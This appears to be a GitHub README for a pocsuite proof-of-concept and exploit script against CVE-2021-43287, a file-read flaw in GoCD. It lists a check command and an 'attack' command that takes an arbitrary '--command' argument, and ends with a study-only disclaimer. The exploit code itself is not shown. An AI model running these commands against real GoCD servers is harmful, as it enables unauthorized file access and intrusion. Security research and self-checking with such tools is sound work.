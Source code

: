 # CVE-2021-43287

POC:
pocsuite -r CVE-2021-43287_GoCD_fileread_POC_EXP -u url
![POC](https://user-images.githubusercontent.com/54984589/167235288-3fbabaa3-5f6b-4d88-b84d-933f5072ca04.gif)
EXP:
pocsuite -r CVE-2021-43287_GoCD_fileread_POC_EXP -u url --attack --command "[command]"
![EXP](https://user-images.githubusercontent.com/54984589/167235311-88ac7672-d972-40a4-9a38-7037e82ecbaa.gif)





# 免责声明
## 此工具仅用于学习、研究和自查。不应将其用于非法目的。使用本工具产生的一切风险与我无关！
# Disclaimer
## This tool is for study, research, and self-examination only. It should not be used for illegal purposes. All risks arising from the use of this tool have nothing to do with me!
